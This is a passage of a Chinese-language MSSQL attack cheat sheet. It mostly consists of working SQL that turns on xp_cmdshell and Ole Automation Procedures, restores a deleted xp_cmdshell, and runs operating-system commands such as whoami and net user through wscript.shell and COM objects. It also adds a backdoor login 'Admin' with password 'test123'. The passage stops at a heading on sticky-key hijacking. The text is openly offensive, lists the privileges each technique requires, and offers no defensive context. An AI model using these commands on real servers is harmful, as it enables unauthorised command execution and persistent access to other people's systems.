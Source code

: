 ```sql
#执行命令
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'cmd /c mkdir c:\temp';
exec sp_oamethod @o,'run',null,'cmd /c "net user" > c:\temp\user.txt';
create table cmd_output (output text);
BULK INSERT cmd_output FROM 'c:\temp\user.txt' WITH (FIELDTERMINATOR='n',ROWTERMINATOR = 'nn')      -- 括号里面两个参数是行和列的分隔符，随便写就行
select * from cmd_output
```
## xp_cmdshell

**利用条件:**

* 拥有DBA权限 `select is_srvrolemember('sysadmin');`

```sql
exec sp_configure 'show advanced options',1  
reconfigure;exec sp_configure 'xp_cmdshell',1;
reconfigure
```
被删除后，重新添加xp``_cmdshell存储过程语句
```sql
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll';
```
## Ole automation procedures
**利用条件:**

- 拥有DBA权限

1. 开启Ole automation procedures

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE; EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'show advanced options', 0;
```

2. 命令执行

```sql

# wscript.shell组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

# com组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```
## ap_addlogin添加用户
```sql
EXEC sp_addlogin 'Admin', 'test123', 'master'
# 用户Admin，密码test123，默认数据库master
```
## xp_regwrite劫持粘滞键